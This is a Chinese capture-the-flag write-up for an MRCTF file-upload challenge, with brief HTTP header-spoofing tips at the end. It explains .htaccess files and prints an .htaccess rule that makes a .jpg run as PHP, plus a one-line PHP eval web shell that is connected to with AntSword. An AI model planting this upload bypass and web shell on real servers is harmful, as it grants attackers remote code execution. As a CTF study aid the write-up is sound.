 ### [MRCTF]你传你🐎呢

1.htaccess文件

```
.htaccess文件(或者"分布式配置文件"）提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。

概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

启用.htaccess，需要修改httpd.conf，启用AllowOverride，并可以用AllowOverride限制特定命令的使用。如果需要使用.htaccess以外的其他文件名，可以用AccessFileName指令来改变。例如，需要使用.config ，则可以在服务器配置文件中按以下方法配置：AccessFileName .config 。

笼统地说，.htaccess可以帮我们实现包括：文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定IP地址的用户、只允许特定IP地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能。 
```

2.上传.htaccess文件，注意文件名必须相同才能够被上传成功

```
<FilesMatch "webshell.jpg">
SetHandler application/x-httpd-php
</FilesMatch> 
```

3.上传一句话木马webshell.jpg

```
<?php
@eval($_POST['v']);
?> 
```

4.用蚁剑连接获得flag
![在这里插入图片描述](img/dd7de106f9482dfb980f441e0fbecc1d.png)

## HTTP

请求头Referer:http://xxxxx
修改访问浏览器：在User-Agent中修改
在本地访问：X-Forwarded-For:127.0.0.1
